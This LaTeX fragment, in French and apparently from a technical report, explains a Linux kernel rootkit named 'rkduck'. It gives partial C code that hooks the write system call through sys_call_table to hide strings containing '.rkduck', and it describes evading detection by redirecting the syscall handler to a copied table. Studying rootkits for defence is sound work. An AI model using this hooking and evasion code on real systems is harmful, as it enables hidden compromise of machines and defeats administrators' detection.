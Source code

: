 \documentclass[12pt]{article}
\begin{document}
		Il ne reste plus qu'à remplacer l'appel système. Dans les Listings~\ref{listing:3} et~\ref{listing:4}, l'appel système détourné est \texttt{write}. La nouvelle fonction \texttt{write} va regarder si le buffer à afficher contient la chaîne de caractères ".rkduck". Si c'est le cas, la fonction ne renvoie rien, sinon, on fait appel à l'originale en lui passant les mêmes arguments qu'à notre fonction détournée.
		
\begin{listing}[H]
\begin{verbatim}
asmlinkage ssize_t duck_write(int fd, const char __user *buff, 
                              ssize_t count) {
    int r = 0;
    char *proc_protect = ".rkduck";
    char *kbuff = (char *) kmalloc(256, GFP_KERNEL);
    
    if (!copy_from_user(kbuff, buff, 255)) {
        if (strstr(kbuff, proc_protect)) {
            kfree(kbuff);
            return EEXIST;
        }

        r = (*original_write)(fd, buff, count);
        kfree(kbuff);
    }
        
    return r;
}
\end{verbatim}
\caption{Appel système \texttt{write} modifié}
\label{listing:3}
\end{listing}

\begin{listing}[H]
\begin{verbatim}
int duck_init(void) {
    /* [...] */    
    set_page_rw((ptr_t) sys_call_table);
    original_write = xchg(&sys_call_table[__NR_write], duck_write);
    set_page_ro((ptr_t) sys_call_table);
	/* [...] */
    return 0;
}
\end{verbatim}
\caption{Détournement de l'appel système \texttt{write}}
\label{listing:4}
\end{listing}

        La méthode décrite ici, qui est simple et peu furtive, permet de se hooker à la table des appels système et de détourner n'importe lequel de ses éléments. Il existe cependant des techniques plus avancées remontant la séquence d'exécution d'un appel système.

        Par exemple, il est possible de détecter la méthode détaillée ci-dessus en vérifiant les adresses contenues dans la table des appels système. Pour contourner la détection, le gestionnaire des appels système peut être compromis en remplaçant l'adresse de la table qu'il utilise. Ainsi, il suffit de copier la table des appels système et de changer le pointeur utilisé dans le gestionnaire pour que ce dernier utilise notre table détournée au lieu de l'originale. Ainsi, lorsque l'administrateur tentera de détecter notre hook en regardant la table originale, il échouera, car cette dernière n'a pas été modifiée. En revanche, si l'utilisateur légitime vérifie le pointeur utilisé par le gestionnaire des appels système, il se rendra compte que la table utilisée diffère de l'originale. 
        
\end{document}
